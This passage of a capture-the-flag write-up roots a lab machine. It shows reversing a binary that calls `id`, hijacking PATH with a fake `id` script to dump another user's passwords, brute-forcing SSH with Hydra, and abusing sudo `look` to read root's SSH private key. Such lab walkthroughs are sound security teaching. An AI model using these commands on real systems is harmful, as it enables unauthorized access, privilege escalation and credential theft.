

`*UND*` means that the binary uses the function but does not implement it locally within its own code.

Taking into account that `file` also returned `not stripped`, indicating the ELF binary preserves function and variable names, I use the command `objdump -s /usr/sbin/pwm`. The `-s` lets us represent the binary in its hexadecimal format accompanied by its ASCII representation. This way I can locate the memory assignment of the functions' execution from when it looks for the `id` up to the `error` notice.



The `.rodata` section contains the text returned by the system when running the program; in it I identify the addresses `2070` and `2080` (`0x2070`, `0x2080`). I use `objdump -d /usr/sbin/pwm`, `-d` for 'disassemble', to see the full content in ASSEMBLY and analyze in the `<main>` section the order of the functions and when they are called.



Analyzing the data, I perceive that the logic of these functions is the following:
```
popen() -> fscanf() -> perror()
```
I conclude that `popen()` executes a command, in this case `id`, and `fscanf()` interprets it, receiving `www-data`, and since the file `.passwords` does not exist for this user, it raises the error with `perror()`.

So one possible solution would be to manipulate the command that `popen()` executes so that `fscanf()` interprets a user with more permissions than `www-data`. `/usr/sbin/pwm` returns the user's name and not the ID. I check my `$PATH` and look for the path where the `id` command is located.


It is in `/usr/bin` but I cannot write a file in this path. I must find a directory on the system that has write permission, where I can write a file to create the impersonation of the `id` command and add it to `$PATH` so that `/usr/sbin/pwm` uses it.

I start by searching with `ls -la` the root directories; after `/boot`, `/dev` had a `/shm` directory with the necessary permissions `d-----xrw-`.



I run a test to verify that I can write and execute a script in this directory. I copy the binary of the `ls` command from `/bin/ls` to `/dev/shm` and run it.



I try to write the needed file, but even though `ls` could be copied, what I write is not saved.

Since I am in a basic `sh` terminal, I imagine that '#' and '!' are generating some conflict; I try to write the file again but substituting the symbols with their octal representation `# = \43 and ! = \41`. 



Perfect, writing and execution work in this directory. Now I have to create the fake `id` command. I know that only the user `think` has the `/.passwords` file, which is needed by `/usr/sbin/pwm`. Earlier I read `/etc/passwd` and here I was able to find the `UID` of the user in question.



In this way I can build the output format of the `id` command. If the structure for `www-data` is: 
```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I can replicate this output with the information of the user `think` so that `/pwm` reads it.




Done! My `id` command returns exactly what it returns for the user `think`. Now I must add `/dev/shm` to `$PATH` so that `/pwm` chooses my command before the `id` of `/usr/bin`; we export the `$PATH` with `export PATH="/dev/shm/id:$PATH"`.



The problem occurs that, due to the simplicity of the terminal, if I run it on a single line I see `/dev/shm` added to the `$PATH`; if I run it again the path of `id` no longer appears in the `$PATH`.

To solve it, I recreated the `id` file with a sequence of 'echos':
```sh
echo '\43\41/bin/\163\150' > /dev/shm/id

echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /dev/shm/id

chmod 755 /dev/shm/id

export PATH=/dev/shm:$PATH ; /usr/sbin/pwm
```
As a result, I make the binary recognize me as the user `think` and return the list of passwords:


Next, I create a '.txt' file as a dictionary with the passwords found and run an ssh bruteforce with Hydra to find `think`'s real password.

```sh
hydra -l think -P PATH/TO/USER/THINK/passwor_list.txt ssh://10.128.143.206 -t 4 -f -V
```

I log in via ssh with the user `think` and the found password `josemario.AKA(think)`

I go to `/home/think` to read the first flag `user.txt`.


Next I use the `sudo -l` command to view commands I can run with `sudo` as the user `think`.

I see that I can use the `look` command as `sudo`. I visit: https://gtfobins.org to learn about this command.


The `look` command is for viewing files, and with the format provided by `gtfobins`, I view the `root` user's ssh private key since I can run it as administrator:


I save `root`'s RSA private key in a text file. Next, I log in via ssh to the `root` user using its private key.
`ssh root@10.128.143.206 -i /PATH/TO/root.key `


And with that, read the final flag of `root`





Thank you.


